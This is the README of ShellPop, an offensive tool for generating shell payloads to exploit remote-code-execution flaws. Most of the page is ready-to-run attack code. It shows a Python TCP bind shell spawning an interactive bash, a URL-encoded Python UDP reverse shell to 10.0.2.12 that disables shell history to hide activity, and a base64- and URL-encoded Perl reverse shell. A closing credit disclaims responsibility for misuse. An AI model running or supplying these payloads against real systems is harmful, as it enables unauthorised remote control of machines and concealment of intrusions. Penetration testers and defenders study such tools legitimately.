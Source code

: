 # ShellPop
## Pop shells like a master

## Installation
```bash
root@pc# ./install.sh
```

## List available code for shells
```bash
user@pc$ shellpop --list
```
![Image1](img/photo2.JPG)


## Generate code for RCE vulnerabilities

### Generate a Python TCP bind shell, at port 3333.
```bash
user@pc$ shellpop --number 1 --bind --port 3333

python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',3333));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```

### Generate a Python UDP reverse shell, at host 10.0.2.12 and port 1337, urlencoded.
```bash
user@pc$ shellpop --number 2 --reverse --host 10.0.2.12 --port 1337 --urlencode

python%20-c%20%22import%20os%3B%20import%20pty%3B%20import%20socket%3B%20lhost%20%3D%20%2710.0.2.12%27%3B%20lport%20%3D%201337%3B%20s%20%3D%20socket.socket%28socket.AF_INET%2C%20socket.SOCK_DGRAM%29%3B%20s.connect%28%28lhost%2C%20lport%29%29%3B%20os.dup2%28s.fileno%28%29%2C%200%29%3B%20os.dup2%28s.fileno%28%29%2C%201%29%3B%20os.dup2%28s.fileno%28%29%2C%202%29%3B%20os.putenv%28%27HISTFILE%27%2C%20%27/dev/null%27%29%3B%20pty.spawn%28%27/bin/bash%27%29%3B%20s.close%28%29%3B%22%20
```

### Generate a Perl TCP reverse shell, at host 10.0.2.12 and port 3311, base64 and urlencoded.
```bash
user@pc$ shellpop --number 5 --reverse --host 10.0.2.12 --port 3311 --base64 --urlencode

cGVybCAtZSAidXNlIFNvY2tldDtcJGk9JzEwLjAuMi4xMic7XCRwPTMzMTE7c29ja2V0KFMsUEZfSU5FVCxTT0NLX1NUUkVBTSxnZXRwcm90b2J5bmFtZSgndGNwJykpO2lmKGNvbm5lY3QoUyxzb2NrYWRkcl9pbihcJHAsaW5ldF9hdG9uKFwkaSkpKSl7b3BlbihTVERJTiwnPiZTJyk7b3BlbihTVERPVVQsJz4mUycpO29wZW4oU1RERVJSLCc%2BJlMnKTtleGVjKCcvYmluL3NoIC1pJyk7fTsiIA%3D%3D
```

## More examples
![Image2](img/photo1.jpg)

## Credits

This code is 100% authored by Andre Marques (@zc00l) and it is made open to public the moment
it was released in his github. Any misuse of this code does not makes the author responsible
for the damage it could cause.

If you want to add more commands or improve my program, feel free to send me a pull request.
